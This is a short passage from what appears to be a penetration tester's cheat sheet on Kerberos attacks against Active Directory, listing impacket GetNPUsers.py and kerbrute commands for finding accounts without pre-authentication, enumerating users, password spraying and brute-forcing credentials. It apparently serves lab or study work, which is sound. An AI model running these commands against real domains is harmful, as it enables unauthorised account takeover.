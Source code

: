 #### Kerberos-sec
- can use impacket GetNpUsers.py to see if any users have kerberos pre-auth disabled
  - `GetNPUsers.py domain.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192 | grep -v 'KDC_ERR_C_PRINCIPAL_UNKNOWN'`
  - Kerbrute
    - `./kerbrute_linux_amd64 userenum - domain.local --dc {ip} users.txt`
    - `./kerbrute_linux_amd64 passwordspray --dc {ip} -d domain.local users.txt Password@10.10.10.10
    - `kerbrute userenum --dc [DC] -d [domain] [userlist]`
    - `kerbrute passwordspray --dc [DC] -d [domain] [userlist] [password]`
    - `kerbrute bruteuser --dc [DC] -d [domain] [passlist] [user]`
    - `kerbrute bruteforce --dc [DC] -d [domain] [credslist]`
    - credslist contains [user]:[pass] on each line
